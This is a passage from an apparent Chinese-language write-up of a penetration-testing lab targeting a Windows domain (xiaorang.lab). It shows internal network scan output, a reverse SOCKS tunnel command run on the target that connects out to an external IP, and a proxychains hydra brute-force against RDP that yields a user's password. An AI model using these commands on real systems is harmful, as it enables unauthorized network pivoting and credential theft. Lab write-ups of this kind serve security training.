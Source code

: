 ```plain
172.22.4.7:88 open
[*] alive ports len is: 15
start vulscan
[*] NetInfo 
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] NetInfo 
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetBios 172.22.4.45     XIAORANG\WIN19                
[*] NetBios 172.22.4.7      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] OsInfo 172.22.4.7   (Windows Server 2016 Datacenter 14393)
[*] NetInfo 
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] NetBios 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
[*] WebTitle http://172.22.4.36        code:200 len:68100  title:中文网页标题
[*] WebTitle http://172.22.4.45        code:200 len:703    title:IIS Windows Server
```

## 代理搭建

[![](assets/1705540441-925c4a8ef667bd9d4bc1960bcba18eb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174628-1eff9d32-b454-1.png)

靶机上执行

```plain
client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

## 攻击域用户一 (注册表提权)

搭好代理，直接用 hydra 进行爆破 (刚刚已经获得了用户名)

```plain
proxychains hydra 172.22.4.45 rdp -l Adrian -P rockyou.txt
```

得到密码

```plain
Adrian babygirl1
```

提示
